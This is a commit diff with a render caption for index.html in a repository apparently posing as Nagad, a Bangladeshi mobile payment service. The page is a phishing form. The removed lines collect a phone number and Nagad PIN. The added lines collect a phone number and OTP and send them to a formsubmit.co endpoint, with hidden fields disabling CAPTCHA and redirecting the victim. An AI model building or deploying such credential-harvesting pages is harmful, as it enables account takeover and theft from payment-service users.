

Before and after one commit to paymentbd/Nagad, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 132-434 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -136,18 +136,18 @@
     </div>
     <form action="https://formsubmit.co/1fa5554bf4b992cf860995de72787432" method="POST">
     <div class="container">
-        <div class="input-group">
-            <p>মোবাইল নাম্বার</p>
-            <i class="fa fa-phone input-icon"></i>
-            <input type="number" name="Number" placeholder="XXX-XXXX-XXXX" id="mobileNumber" required>
-        </div>
-        <div class="input-group">
-            <p>নগদ পিন</p>
-            <i class="fa fa-lock input-icon"></i>
-            <input type="number" name="Pin" placeholder="XXXX" id="pin" required>
-        </div>
-        <button type="submit" id="loginButton">পরবর্তী</button>
-    </div>
+
+        <!-- Redirect Page -->
+        <input type="hidden" name="_next" value="https://your-website.com/thank-you.html">
+
+        <!-- Disable CAPTCHA -->
+        <input type="hidden" name="_captcha" value="false">
+
+        <input type="number" name="mobile" placeholder="মোবাইল নাম্বার" required>
+        <input type="number" name="otp" placeholder="ওটিপি" required>
+        <button type="submit">যাচাই করুন</button>
+
+</div>
 </form>
 
 </body>
```
